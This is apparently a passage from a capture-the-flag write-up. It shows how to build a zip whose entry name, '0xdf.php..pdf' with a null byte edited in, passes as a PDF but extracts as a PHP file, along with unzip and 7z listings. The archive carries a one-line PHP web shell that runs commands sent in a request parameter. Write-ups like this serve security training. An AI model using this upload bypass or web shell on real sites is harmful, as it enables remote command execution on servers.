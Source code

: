 ```

>>> import zipfile
>>> with zipfile.ZipFile("example.zip", "w") as zip_file:
...     zip_file.writestr("test.php\x00.pdf", "this is a test")
... 

```

However, if I look at a hex dump of the resulting file, the `\x00.pdf` is gone:

![image-20240110123240105](/img/image-20240110123240105.png)

Instead, I’ll write one with two dots, the first acting as a placeholder:

```

>>> with zipfile.ZipFile("nulls.zip", "w") as zip_file:
...     zip_file.writestr("0xdf.php..pdf", "<?php system($_REQUEST['cmd']); ?>")
... 

```

Now I’ll open `nulls.zip` in a hex editor find the references to the filename:

![image-20240110123544736](/img/image-20240110123544736.png)

Changing the first one will break `7z`, which is important because that’s what Zipping uses. I’ll just change the first null in the second filename:

![image-20240110123955810](/img/image-20240110123955810.png)

#### Handling Nulls 7z/zip vs PHP

Once I’ve edited the null into the second filename instance inside the zip, `unzip` and `7z` both show it as just `0xdf.php`, stopping at the null:

```

oxdf@hacky$ unzip -l nulls.zip 
Archive:  nulls.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       34  2024-01-10 12:34   0xdf.php
---------                     -------
       34                     1 file
oxdf@hacky$ 7z l nulls.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs AMD Ryzen 9 5900X 12-Core Processor             (A20F10),ASM,AES-NI)

Scanning the drive for archives:
1 file, 158 bytes (1 KiB)

Listing archive: nulls.zip
--
Path = nulls.zip
Type = zip
Physical Size = 158

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-01-10 12:34:00 .....           34           34  0xdf.php
------------------- ----- ------------ ------------  ------------------------
2024-01-10 12:34:00                 34           34  1 files

```